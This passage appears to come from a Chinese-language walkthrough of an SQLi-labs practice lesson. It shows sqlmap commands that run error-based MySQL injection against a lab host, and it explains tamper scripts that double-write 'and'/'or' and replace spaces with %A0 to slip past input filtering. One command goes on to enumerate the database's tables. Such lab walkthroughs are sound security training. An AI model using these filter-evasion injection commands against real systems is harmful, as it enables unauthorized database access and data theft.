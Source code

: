 ```
```

### 运行

结合上次双写绕过and和or的andor.py脚本跑一下。

`python sqlmap.py -u "http://192.168.75.132/sql/Less-26/?id=1" --threads 10 --technique E --dbms mysql --tamper "space0A.py,andor.py" --fresh-queries --flush-session`

```
--dbsm msql:指定后端数据库为mysql
--technique E:指定注入方式为报错注入
--threads 10:指定并发线程数为10
--tamper space0A.py,andor.py
	andor.py:payload中的and用anandd or用oorr替代
	space0A.py:空格用%A0替代
--fresh-queries:发起新请求 
--flush-session：刷新session
```

![007](/img/sql/Lesson-26/007.png)

![008](/img/sql/Lesson-26/008.png)

`python sqlmap.py -u "http://192.168.75.133/sql/Less-26/?id=1" --threads 10 --technique E --dbms mysql --tamper "andor.py,space0A.py" -D security --tables  --fresh-queries --flush-session`

![008_1](/img/sql/Lesson-26/008_1.png)
